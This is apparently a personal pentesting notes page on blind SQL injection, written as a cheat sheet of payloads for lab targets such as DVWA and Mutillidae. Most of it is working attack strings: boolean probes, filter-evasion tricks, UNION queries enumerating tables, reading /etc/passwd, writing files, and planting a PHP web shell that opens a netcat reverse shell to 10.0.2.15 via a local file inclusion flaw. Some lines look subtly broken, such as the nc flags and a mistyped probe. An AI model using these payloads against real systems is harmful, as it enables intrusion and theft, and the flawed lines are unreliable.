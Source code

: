 ```yaml
---
title: Blind SQL
date: 2021-02-15 09:00:00
tags:
    - SQL
categories:
- notes
keywords:
    - SQL
    - attack
---
```



Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.

Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.


### Tips

* Examples of TRUE statements to discover SQLi
```
aNd 1=1
aNd 21=21
orDeR bY 1
```
* Examples of FALSE statements 
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

* Characters to replace spaces
```
+ 
/**/
%20

> Previous examples:
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201

```

* Comment marks for ending requests
```
/*
//
#
%23
``` 

* PD: Sometimes you'll need to add `;` before commenting, examples:
```
anD 1=1//
anD 1=1;//
``` 

#### Medium security

Sometimes the web may  be filtering the URL looking up for special characters. In that case, we can first try to remove the `'` at the error window. Also if we have to enter a literal like `where table = 'that_table'`, we can forget about the quotes and convert it to hex. It can be done with Burp Suite, and it would look something like `where table = 0x345264`.

#### One table at a time

From the following hide request, sometimes we can retrieve only the first table name and not all of them.

`-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema%23`

Then we have to add the clause `limit 0,1`, where the first number is the table to show and the second the number of table that are going to appear. So we would do several requests like this:

```
-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+0,1%23

-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+1,1%23

-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+2,1%23
```
The `-1` is so the main request doesn't output anything because is wrong.

#### Read and Write Files 

This example is done on a database that has 5 columns. 

* Read
```
admin' union select null, load_file('/etc/passwd'),null,null,null%23
```

* Write 
  
If we try to write on folders like /var/www or so it is possible that we do not have permission.

``` 
admin' union select null,'This is what is going to be written',null,null,null into outputfile '/tmp/example.txt'%23

```

#### Reverse Shell

There have to be a LFI vulnerability in the server we are attacking. This works on a low security server with two columns.

```
-1' union select '<?passthru("nc -w /bin/sh 10.0.2.15 8888");?>',null into outfile '/tmp/reverse_shell.php'%23
```

We then listen in our terminal `nc -vv -l -p 8888`. And go to the LFI vulnerability and locate our file `/?page=/../../../../../tmp/reverse_shell.php`.

This can be done in Mutillidae A6 (LFI) or DVWA File injection.
